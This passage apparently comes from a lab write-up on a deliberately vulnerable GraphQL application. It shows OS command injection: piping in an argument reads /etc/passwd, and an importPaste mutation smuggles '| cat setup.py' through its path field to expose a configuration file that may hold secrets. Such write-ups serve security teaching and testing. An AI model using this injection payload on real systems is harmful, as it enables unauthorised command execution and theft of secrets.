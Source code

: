 Piping injection command in the arg allows us to execute more than one command at the same time. This allows us to read the content of **_/etc/passwd_** file as shown in figure below.

![Injection one](../images/graphql/graphl_injection1.png)

### OS Command Injection - importPaste

importPaste mutationQuery allows us to execute an arbitrary command through the **_path_** argument as shown in the query below.

```graphql
mutation {
  importPaste(
    host: "localhost"
    port: 80
    path: "/ | cat setup.py "
    scheme: "http"
  ) {
    result
  }
}
```

**setup.py** is a python file used for setting the configurations for a Python backend API. This may contain secrets that should accessible by the users of the API.

![importPaste](../images/graphql/graphql_injection2.png)
